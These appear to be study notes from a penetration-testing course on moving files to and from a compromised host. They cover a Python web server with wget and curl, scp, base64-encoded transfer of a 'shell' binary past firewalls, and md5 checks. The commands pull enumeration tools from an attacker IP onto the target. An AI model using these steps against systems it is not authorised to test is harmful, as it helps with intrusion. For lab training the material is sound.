 - During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. 
- While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.


### wget
- There are many methods to accomplish this. 
- One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. 
- First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:
```shell-session
secmancer@htb[/htb]$ cd /tmp
secmancer@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
- Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:
```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```
- Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:
```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
- Note that we used the `-o` flag to specify the output file name.


### SCP
- Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
```shell-session
secmancer@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
- Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.

### Base64
- In some cases, we may not be able to transfer the file. 
- For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. 
- In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. 
- For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:
```shell-session
secmancer@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```
- Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:
```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```


### Validating File Transfers
- To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:
```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```
- As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it. 
- To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:
```shell-session
secmancer@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
- Now, we can go to the remote server and run the same command on the file we transferred:
```
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
- As we can see, both files have the same md5 hash, meaning the file was transferred correctly. 
- There are various other methods for transferring files. 
- You can check out the [File Transfers](https://academy.hackthebox.com/module/details/24) module for a more detailed study on transferring files.